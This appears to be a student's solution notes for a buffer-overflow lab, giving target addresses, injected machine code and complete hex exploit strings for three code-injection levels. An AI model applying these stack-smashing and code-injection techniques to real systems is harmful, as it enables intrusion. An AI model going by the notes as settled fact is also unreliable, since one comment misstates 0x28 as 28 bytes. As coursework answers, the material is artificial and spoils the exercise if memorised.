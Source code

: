 # Solution With Notes

## Level 1
- touch1 address: 0x00000000004017c0

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp      // Allocates 28 bytes
  ...
```

**String**: 
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00 /* touch1 address */
```

## Level 2
- touch2 address: 0x00000000004017ec

<ins> Exploit code:
```
   0:	bf fa 97 b9 59       	mov    $0x59b997fa, %edi    // Cookie value
   5:	c3                   	ret    
```

<ins> Format: 
  1. Filler
  2. Address of exploit code, *%rsp on getbuf ret
  3. Address of touch2, *%rsp on exploit code ret
  4. Exploit code

- Exploit code address: getbuf starting %rsp + 16 = 0x55685fc0 + 0x10 = 0x55685fd0

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d0 5f 68 55 00 00 00 00 /* exploit code address */
ec 17 40 00 00 00 00 00 /* touch2 address */
bf fa 97 b9 59 c3       /* exploit code */
```

## Level 3
- touch3 address: 00000000004018fa

<ins> Format: 
  1. Filler
  2. Address of exploit code
  4. Address of touch3
  5. Cookie string, 9 bytes
  6. Exploit code

- Exploit code address: getbuf starting %rsp + 16 + 9 = 0x55685fd9
- Cookie string: "59b997fa" -> hex -> 35 39 62 39 39 37 66 61 00
- Cookie string address: getbuf starting %rsp + 16 = 0x55685fd0

<ins> Exploit code:
```
   0:	bf d0 5f 68 55       	mov    $0x55685fd0, %edi      // Set argument 1 to point to cookie string (upper 32 bits set to 0)
   5:	c3                   	ret    
```

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d9 5f 68 55 00 00 00 00 /* exploit code address */
fa 18 40 00 00 00 00 00 /* touch3 address */
35 39 62 39 39 37 66 61 /* cookie string */
00
bf d0 5f 68 55 c3       /* exploit code */
```
